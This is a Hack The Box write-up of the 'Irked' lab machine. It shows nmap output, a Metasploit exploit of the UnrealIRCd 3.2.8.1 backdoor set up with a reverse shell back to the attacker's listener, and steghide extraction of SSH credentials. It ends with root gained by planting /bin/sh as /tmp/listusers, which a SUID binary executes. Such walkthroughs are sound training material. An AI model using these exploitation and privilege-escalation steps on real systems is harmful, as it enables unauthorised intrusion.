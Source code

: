 ```yaml
---
layout: single
title: Irked - Hack The Box
excerpt: "Irked is an easy box running a backdoored UnrealIRC installation. I used a Metasploit module to get a shell then ran `steghide` to obtain the SSH credentials for the low privileged user then got root by exploiting a vulnerable SUID binary."
date: 2019-04-27
classes: wide
header:
  teaser: /assets/images/htb-writeup-irked/irked_logo.png
categories:
  - hackthebox
  - infosec
tags:  
  - ctf
  - stego
  - cve
  - metasploit
  - suid
---
```


![](/assets/images/htb-writeup-irked/irked_logo.png)

Irked is an easy box running a backdoored UnrealIRC installation. I used a Metasploit module to get a shell then ran `steghide` to obtain the SSH credentials for the low privileged user then got root by exploiting a vulnerable SUID binary.

## Tools/Exploits/CVEs used

- steghide
- metasploit

## Summary

- UnrealIRCd MSF exploit for initial foothold
- steghide encoded file containing password for user
- SUID binary for priv esc

### Nmap

Aside from the typical Apache and OpenSSH services, I noticed that UnrealIRCd is installed.

```
# nmap -p- -sC -sV 10.10.10.117
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-17 14:02 EST
Nmap scan report for 10.10.10.117
Host is up (0.019s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          33436/udp  status
|_  100024  1          50397/tcp  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
50397/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Webpage

The main page just has a picture and a note about IRC.

![](/assets/images/htb-writeup-irked/web.png)

### UnrealIRCd exploitation

The box is running UnrealIRCd and searchsploit shows there's an MSF exploit for it:
```
root@ragingunicorn:~/Downloads# searchsploit unrealirc
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)
```

Getting a shell with Metasploit is easy:
```
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.117     yes       The target address range or CIDR identifier
   RPORT   8067             yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.23      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 10.10.14.23:4444 
[*] 10.10.10.117:8067 - Connected to 10.10.10.117:8067...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:8067 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo O1zcz5ML2uK8OjPk;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "O1zcz5ML2uK8OjPk\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.10.14.23:4444 -> 10.10.10.117:58328) at 2018-11-17 14:08:40 -0500
```

I have a shell as user `ircd`:
```
python -c 'import pty;pty.spawn("/bin/bash")'
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

The `djmardov` user home directroy has a `.backup` file that contains the password for some stego encoded file:
```
djmardov@irked:~/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3 04:40 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
djmardov@irked:~/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

Password: `UPupDOWNdownLRlrBAbaSSss`

Since the note mentionned stego and this box is rated as easy, I guessed that it would be an off-the-shelf tool like `steghide` and not some custom obfuscation. The hidden file is found in the `irked.jpg` image from the main page and the steg doesn't use any passphrase.
```
root@ragingunicorn:~/Downloads# steghide extract -sf irked.jpg 
Enter passphrase: 
wrote extracted data to "pass.txt".
root@ragingunicorn:~/Downloads# 
root@ragingunicorn:~/Downloads# cat pass.txt
Kab6h+m+bbp2J:HG
```

djmardov's password is: `Kab6h+m+bbp2J:HG`

I can SSH in and get the user flag:

```console
djmardov@irked:~/Documents$ cat user.txt
cat user.txt
4a66a7...
```

### Priv esc

I found a suspicious SUID file: `/usr/bin/viewuser`

```console
djmardov@irked:~$ find / -perm /4000 2>/dev/null
find / -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
```

When I execute the file, I see it runs `/tmp/listusers`

```
djmardov@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2018-11-17 13:54 (:0)
djmardov pts/1        2018-11-17 14:19 (10.10.14.23)
sh: 1: /tmp/listusers: not found
```

Since it's a running as root and I have write access to `tmp` I can just copy `/bin/sh` to `/tmp/listusers` and gain root

```console
djmardov@irked:~$ cp /bin/sh /tmp/listusers
djmardov@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2018-11-17 13:54 (:0)
djmardov pts/1        2018-11-17 14:19 (10.10.14.23)
# cd /root
# cat root.txt
8d8e9e...
```